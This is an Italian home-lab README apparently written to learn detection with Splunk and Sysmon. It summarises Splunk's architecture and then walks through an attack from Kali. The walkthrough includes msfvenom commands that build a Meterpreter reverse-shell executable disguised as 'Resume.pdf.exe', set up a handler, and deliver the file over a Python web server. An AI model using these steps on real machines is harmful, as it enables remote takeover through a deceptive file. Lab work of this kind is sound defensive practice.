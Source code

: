 # HomeLab_Splunk-Sysmon
Ambiente di Testing composto da una VM Kali da cui vengono lanciati gli attacchi e una macchina windows su cui è installato Splunk+Sysmon. Implementazioni future: alert via mail, attacchi più sofisticati 
## Intro Splunk

L'architettura di Splunk è progettata per raccogliere, indicizzare, cercare, monitorare e analizzare i dati generati dalle macchine. È composta da diversi componenti:

### 1. **Forwarder (Inoltratore)**

Raccoglie i dati dai dispositivi di origine e li invia agli Indexer.

- **Universal Forwarder**: Leggero, invia dati senza elaborazione.
- **Heavy Forwarder**: elabora i dati e li invia

### 2. **Indexer**

Riceve i dati dai Forwarder, li indicizza e li memorizza in un formato facilmente ricercabile.

- **Output**: Archivi di dati indicizzati e metadati per l'accesso rapido.

### 3. **Search Head (Testa di Ricerca)**

Fornisce un'interfaccia utente per effettuare ricerche e analisi sui dati indicizzati.

### 4. **Cluster Master (Master del Cluster)**

Gestisce la configurazione e il bilanciamento del carico negli ambienti cluster.

- **Ruoli**:
    - **Gestione dei Replicanti**: Coordina la replicazione dei dati tra gli Indexer.
    - **Configurazione**: Distribuisce le configurazioni agli altri nodi del cluster.

### 5. **Deployment Server (Server di Distribuzione)**

- **Funzione**: Gestisce e distribuisce le configurazioni e le applicazioni ai Forwarder e agli altri nodi di Splunk.
- **Ruoli**:
    - **Automazione**: Facilita la gestione centralizzata dei nodi Splunk.
    - **Aggiornamenti**: Distribuisce aggiornamenti e modifiche di configurazione.

### 6. **Management Console**

- **Funzione**: Monitora e gestisce l'intero ecosistema Splunk.
- **Ruoli**:
    - **Monitoraggio**: Fornisce una visione centralizzata dello stato e delle prestazioni dei vari componenti.
    - **Amministrazione**: Offre strumenti per la gestione dell'infrastruttura Splunk.

### Diagramma dell'Architettura

```sql
+-------------------+
|  Search Head      |
|  +-------------+  |
|  |   User      |  |
|  | Interface   |  |
|  +-------------+  |
+-------------------+
          |
          v
+-------------------+
|     Indexer       |
|  +-------------+  |
|  | Indexing    |  |
|  | Storage     |  |
|  +-------------+  |
+-------------------+
          ^
          |
+-------------------+
|   Forwarder       |
|  +-------------+  |
|  | Data        |  |
|  | Collection  |  |
|  +-------------+  |
+-------------------+

```

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/8e346f18-51bb-41e6-9067-744fc6059cb3/2468e165-87a1-4130-8c92-48689a19b37a/Untitled.png)

### Recappino

- **IDS/IPS:**
    - **Snort:** Rilevamento e prevenzione intrusioni di rete.
    - **Suricata**
- **SIEM:**
    - **Splunk:** Analisi log e gestione eventi di sicurezza.
    - **Elastic Stack:** Suite open-source per raccolta e analisi dati.
    - **OSSIM:** SIEM open-source integrato con più strumenti di sicurezza.
- **NSM:**
    - **Security Onion:** Monitoraggio sicurezza di rete con vari strumenti (Snort, Zeek, ecc.).
- **SOAR:**
    - **Phantom (ora in Splunk):** Automazione e orchestrazione della risposta agli incidenti.

<aside>
🛠 Splunk prova 60gg, sysmon download + olaf config, same dir, pwshell → admin → `.\Sysmon64.exe -i`

</aside>

### Sysmon usage

*Install:                            Sysmon64.exe -i [<configfile>]
Update configuration:    Sysmon64.exe -c [<configfile>]
Install event manifest:    Sysmon64.exe -m
Print schema:                 Sysmon64.exe -s
Uninstall:                       Sysmon64.exe -u [force]
-c   Update configuration of an installed Sysmon driver or dump the
current configuration if no other argument is provided. Optionally
take a configuration file.
-i   Install service and driver. Optionally take a configuration file.
-m   Install the event manifest (done on service install as well)).
-s   Print configuration schema definition of the specified version.
Specify 'all' to dump all schema versions (default is latest)).
-u   Uninstall service and driver. Adding force causes uninstall to proceed
even when some components are not installed.*

### Splunk

add data → monitor : controllo in tempo reale file e porte su questo pc

local event logs (es. app, sec,system) → selezioni i log registrati localmente

### Esp 1

Facciamo una scansione con NMAP verso l’indirizzo della macchina WIN (ricorda di attivare RDP - 3389 su win)

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/8e346f18-51bb-41e6-9067-744fc6059cb3/34310e0c-fdbd-4762-bf19-e505a87e6239/image.png)

Ora iniziamo a creare il malware, usando MSFvenom (config iniziale di metaspolit)

creiamo dei payload per windows → funzionamento di base della telemetria

https://www.youtube.com/watch?v=QyseHxzYDi4

Con `msfvenom -l payloads` ci mostra tutti i possibili payload che possiamo usare

scegliamo `meterpeter reverse tcp` 

**`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost-192.168.65.128 lport-4444 -f exe -o Resume.pdf.exe`**

-p → payload che vogliamo usare

lhost → host attaccante (kali)

lport → port attaccante (kali)

-f → formato del file (eseguibile)

-o → file output

Ora apriamo la console di metasploit →  `msfconsole` (ricorda prima di aggiornarlo `msfupdate`)

`use exploit/multi/handler` → abbiamo un payload creato esternamente al fw metasploit

`opstions` → vediamo cosa possiamo configurare: tipo di payload, lhost, lport

`set payload windows/x64/meterpeter/reverse_tcp` → settiamo il tipo di pload

`settiamo lhost → set lhost ipkali` 

ora eseguiamo l’exploit → `exploit`

### Come presentiamo il file contenente il payload a win10?

Possiamo creare un webserver (rendiamolo il più reale possibile)

`python3 -m http.server 9999` → startiamo un server sulla porta 9999 

eseguiamolo su win → con netstat -anob vediamo che si è instaurata la conn
